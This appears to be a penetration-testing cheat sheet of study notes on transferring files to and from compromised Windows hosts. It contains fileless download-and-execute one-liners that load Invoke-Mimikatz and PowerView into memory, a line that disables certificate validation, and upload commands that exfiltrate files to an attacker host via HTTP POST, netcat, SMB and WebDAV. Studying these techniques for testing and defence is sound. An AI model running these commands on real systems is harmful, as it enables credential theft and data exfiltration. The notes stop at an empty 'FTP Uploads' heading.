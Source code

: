 # *Windows*
- ### *Download*
	- ##### *PowerShell Base64 Encode & Decode*
		- Encode SSH key using `cat id_rsa | base64 -w 0;echo`.
		- Copy the content and put it into a Windows PowerShell and use some PowerShell functions to decode it using `[IO.File]::WriteAllBytes("C:\Users\Public\id_rsa", [Convert]::FromBase64String("<base64>"))`.
		- Confirm the file was transferred successfully using `Get-FileHash C:\Users\Public\id_rsa -Algorithm md5`.
		- **NOTE:** CMD has a maximum string length of 8,191 characters, which could make this method not impossible.
	- ##### PowerShell
		- **System.Net.WebClient**
			- Download a file over `HTTP, HTTPS or FTP`.
			- `(New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1','C:\Users\Public\Downloads\PowerView.ps1')`
			- Fileless method using `Invoke-Expression` (run from memory).
				- `IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')`
				- `(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1') | IEX`
		- **Invoke-WebRequest**
			- But it is **slower** at downloading files (aliases `iwr, curl, wget`)
			- `Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 -OutFile PowerView.ps1`
		- **Common Errors**
			- Internet Explorer first-launch configuration isn't completed, use the option `-UseBasicParsing`.
				- `iwr https://<ip>/PowerView.ps1 -UseBasicParsing | IEX`
			- Certificate isn't trusted
				- Use this command before the download command. `[System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}`
	- ##### SMB
		- Create an `SMB` server on our device with [smbserver.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbserver.py) and then use `copy, move` or PowerShell `Copy-Item`.
			- `sudo impacket-smbserver share -smb2support /tmp/smbshare -user test -password test` on the attack device.
				- Mount the `SMB` server with username and password. `net use n: \\<ip>\share /user:test test`
				- `copy n:\file` on the target device. 
			- Without `-user` and `-password`, no need to mount. `copy \\<ip>\share\file`.
	- ##### FTP
		-  Configure an `FTP` server on our device with Python module `pyftpdlib`.
			- `sudo pip3 install pyftpdlib`
			- By default, `pyftpdlib` uses port `2121`.
			- Start the server using `sudo python3 -m pyftpdlib --port 21`
			- Using PowerShell
				- `(New-Object Net.WebClient).DownloadFile('ftp://<ip>/file', '<to path>'`
				- In case **Non-Interactive Shell**, create an FTP command file to download a file.
					- `echo open <ip> > ftpcommand.txt`
					- `echo USER anonymous >> ftpcommand.txt`
					- `echo binary >> ftpcommand.txt`
					- `echo GET file.txt >> ftpcommand.txt`
					- `echo bye >> ftpcommand.txt`
					- `ftp -v -n -s:ftpcommand.txt`
- ### *Upload*
	- Used in situations such as password cracking, analysis, exfiltration, etc.
	- ##### PowerShell Base64 Encode & Decode
		- Encode file to Base64 using `[Convert]::ToBase64String((Get-Content -path "C:\Windows\system32\drivers\etc\hosts" -Encoding byte))` then use `Get-FileHash "C:\Windows\System32\drivers\etc\hosts" -Algorithm MD5 | select Hash` to get the hash to be compared later.
		- Copy the content and paste it into attack host and use `echo "<base64>" | base64 -d > hosts` to save it to a file.
		- Compare the hashes using `md5sum hosts`.
	- ##### PowerShell Web Uploads
		- PowerShell doesn't have a built-in function for upload operations, but `Invoke-WebRequest` or `Invoke-RestMethod` to build an upload function. Also, a web server that accepts uploads, which is not a default option in most common web server utilities, is needed.
		- **Installing a Configured Web Server with Upload**
			- `uploadserver` which is an extended module of the Python `HTTP.server` module which includes a file upload page.
			- Install using `pip3 install uploadserver`.
			- Start the server using `python3 -m uploadserver`, default port is `8080` and path is `/upload`.
		- **PowerShell Script to Upload a File to Python Upload Server**
			- Use the [PSUpload.ps1](https://github.com/juliourena/plaintext/blob/master/Powershell/PSUpload.ps1) PowerShell script which uses `Invoke-RestMethod` to perform the upload operations.
			- The script accepts two parameters `-File` which is the file path, and `-Uri` which is the upload destination.
			- Load script to memory (Fileless Download) using `IEX(New-Object Net.WebClient).DownloadString('https://github.com/juliourena/plaintext/blob/master/Powershell/PSUpload.ps1')`.
			- Upload the file using `Invoke-FileUpload -Uri http://<attack-ip>:8080/upload -File C:\Windows\System32\drivers\etc\hosts`.
		- **PowerShell Base64 Web Upload**
			- Use `Invoke-WebRequest` or `Invoke-RestMethod` with Netcat.
			- Encode file using `$b64 = [System.convert]::ToBase64String((Get-Content -Path 'C:\Windows\System32\drivers\etc\hosts' -Encoding Byte))`.
			- Use `Invoke-WebRequest -Uri http://<attack-ip>:8080/ -Method POST -Body $b64` to send a POST request with the file to the attacking machine.
			- Catch the Base64 data using `nc -lvnp 8080`.
			- Decode using `echo <base64> | base64 -d -w 0 > hosts`.
	- ##### SMB Uploads
		- Since companies usually allow outbound traffic using HTTP (TCP/80) and HTTPS (TCP/443) protocols and deny SMB (TCP/445) out of their internal network, SMB can be used over HTTP with `WebDav`.
		- `WebDav` protocol enables a web server to behave like a file server, supporting collaborative content authoring, `WebDav` can also use HTTPS.
		- When SMB is used, it will try to connect using the SMB protocol, if there is no SMB share available, it will try to connect using HTTP.
		- **Configuring WebDav Server**
			- Install necessary modules using `sudo pip3 install wsgidav cheroot`
			- Starting the server using `sudo wsgidav --host=0.0.0.0 --port=80 --root=/tmp --auth=anonymous`.
		- Connect to the share using the `DavWWWRoot` directory which is a special keyword recognized by the Windows Shell, no such folder exists on the WebDav server, `dir \\<attack-ip>\DavWWWRoot`, and to not use the keyword, specify a folder that exists on the server. For example `\<attack-ip>\sharefolder`.
		- Copy the file using `copy C:\Users\john\Desktop\SourceCode.zip \\<attack-ip>\DavWWWRoot\` or `copy C:\Users\john\Desktop\SourceCoce.zip \\<attack-ip>\sharefolder\`.
		- If there are no SMB (TCP/445) restrictions, `impacket-smbserver` the same way we set it up for download operations.
	- ##### FTP Uploads